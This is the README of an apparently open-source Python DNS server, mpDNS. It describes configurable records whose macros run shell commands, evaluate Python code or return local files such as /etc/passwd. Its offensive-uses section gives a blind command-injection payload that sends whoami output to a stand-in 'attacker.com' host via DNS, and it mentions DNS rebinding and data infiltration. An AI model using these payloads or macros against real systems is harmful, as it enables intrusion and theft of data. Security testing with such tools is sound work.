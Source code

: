 mpDNS aka multi-purpose DNS Server
--------------------
Simple, configurable DNS Server with multiple useful features
- Python 3
- names.db -> holds all custom records (see examples)
- Simple wildcards like *.example.com
- Catch unicode dns requests
- Custom actions aka macro:
  - `{{shellexec::dig google.com +short}}` _-> Execute shell command and respond with result_
  - `{{eval::res = '1.1.1.%d' % random.randint(0,256)}}` _-> Evaluate your python code_
  - `{{file::/etc/passwd}}` _-> Respond with localfile contents_
  - `{{resolve}}` _-> Forward DNS request to local system DNS_
  - `{{resolve::example.com}}` _-> Resolve example.com instead of original record_
  - `{{echo}}` _-> Response back with peer address_
  - `{{shellexec::echo %PEER% %QUERY% %QUERYTYPE%}}` _-> Use of variables_
- See names.db.example for more

Heavily based on <https://github.com/circuits/circuits/blob/master/examples/dnsserver.py>

Quick Start
-----------
```
git clone https://github.com/nopernik/mpDNS
pip install -r requirements
touch names.db
```
Now you're ready to fill your DNS records in **names.db** based on **names.db.example**

Usage: `./mpdns.py`
 - Create **names.db**. See names.db.example
 - Edit DNS records in **names.db** with `./mpdns.py -e` no restart required

Offensive and Defensive purposes:
-----------
1. You need a light-weight simple dns-server solution for testing purposes (NOT PRODUCTION!)
2. Test for various blind injection vulnerabilities in web applications _(ex. `/ping.php?ip=$(dig $(whoami).attacker.com)`)_
3. Easily infiltrate 65K of data in one `TXT` query
4. DNS Rebinding
5. Execute custom macro action on specific query (useful in malware-analysis lab environments)
6. And lots more. It is highly customizable.

Limitations
------------------
1. Due to UDP Datagram limit of 65535 bytes, DNS response is limited to approx ~65200 bytes\
this limitation applies to `TXT` records which are splitted into chunks of 256 bytes until response reaches maximum allowed 65200b\
therefore `TXT` record with macro `{{file:localfile.txt}}` is limited to 65200 bytes.
2. No support for nested wildcards **`test.*.example.com`**
3. No support for custom DNS server resolver in `{{resolve::example.com}}` macro
4. `TTL` always set to **0**

Examples
-----------
**names.db example:**
```
# Empty configuration will result in empty but valid responses
#
# Unicode domain names are not supported but still can be catched by the server.
# for example мама-сервер-unicode.google.com will be catched but with SERVFAIL response

passwd.example.com	TXT     {{file::/etc/passwd}}  #comments are ignored
shellexec			TXT     {{shellexec::whoami}}
eval				TXT     {{eval::import random; res = random.randint(1,500)}}
resolve1			A       {{resolve}}
resolve2			A       {{resolve::self}}      #same as previous
resolve3			A       {{resolve::example.com}}
blabla.com			A       5.5.5.5

*					A       127.0.0.1
*.example.com		A		7.7.7.7
c1.example.com		CNAME	c2.example.com
c2.example.com		CNAME	c3.example.com
c3.example.com		CNAME	google.example.com
google.example.com	CNAME	google.com
test.example.com	A		8.8.8.8
google.com			A		{{resolve::self}}
notgoogle.com		A		{{resolve::google.com}}
```

Example output with names.db example:
---------


**Regular resolution from DB**: `dig test.example.com @localhost`
```
;; ANSWER SECTION:
test.example.com.	0	IN	A	8.8.8.8
```
_mpDNS output:_ `- Request from 127.0.0.1:57698      -> test.example.com.	-> 8.8.8.8 (A)`

-----
**Recursive CNAME resolution**: `dig c1.example.com @localhost`

```
;; QUESTION SECTION:
;c1.example.com.			IN	A

;; ANSWER SECTION:
c1.example.com.		0	IN	CNAME	c2.example.com.
c2.example.com.		0	IN	CNAME	c3.example.com.
c3.example.com.		0	IN	CNAME	google.example.com.
google.example.com.	0	IN	CNAME	google.com.
google.com.		0	IN	A	216.58.206.14
```
_mpDNS output:_ 
```
- Request from 127.0.0.1:44120      -> c1.example.com.		-> c2.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c2.example.com		-> c3.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c3.example.com		-> google.example.com (CNAME)
- Request from 127.0.0.1:44120      -> google.example.com	-> google.com (CNAME)
- Request from 127.0.0.1:44120      -> google.com			-> {{resolve::self}} (A)
```

-----

**Wildcard resolution**: `dig not-in-db.com @localhost`

```
;; ANSWER SECTION:
not-in-db.com.		0	IN	A	127.0.0.1
```
_mpDNS output:_ `- Request from 127.0.0.1:38528      -> not-in-db.com.	-> 127.0.0.1 (A)`

-----
**Wildcard subdomain resolution**: `dig wildcard.example.com @localhost`

```
;; ANSWER SECTION:
wildcard.example.com.	0	IN	A	7.7.7.7
```
_mpDNS output:_ `- Request from 127.0.0.1:39691      -> wildcard.example.com.	-> 7.7.7.7 (A)`

-----
**Forward request macro**: `dig google.com @localhost`
```
;; ANSWER SECTION:
google.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:53487      -> google.com.	-> {{resolve::self}} (A)`

-----
**Forward request of custom domain macro**: `dig notgoogle.com @localhost`
```
;; ANSWER SECTION:
notgoogle.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:47797      -> notgoogle.com.	-> {{resolve::google.com}} (A)`

-----
**File contents macro via TXT query**: `dig txt passwd.example.com @localhost`
```
;; ANSWER SECTION:
passwd.example.com.	0	IN	TXT	"root:x:0:0:root:/root:/bin/bash\010daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\010bin:x:2:2:bin:......stripped"
```
_mpDNS output:_ `- Request from 127.0.0.1:38805      -> passwd.example.com.	-> ['root:x:0:0:root...(2808)'] (TXT)`

-----
**Custom python code macro via TXT query**: `dig txt eval @localhost`
```
;; ANSWER SECTION:
eval.			0	IN	TXT	"320"
```
_mpDNS output:_ `- Request from 127.0.0.1:33821      -> eval.	-> ['320'] (TXT)`

-----
**Shell command macro via TXT query**: `dig txt shellexec @localhost`
```
;; ANSWER SECTION:
shellexec.		0	IN	TXT	"root"
```
_mpDNS output:_ `- Request from 127.0.0.1:50262      -> shellexec.	-> ['root'] (TXT)`

-----

Have fun!
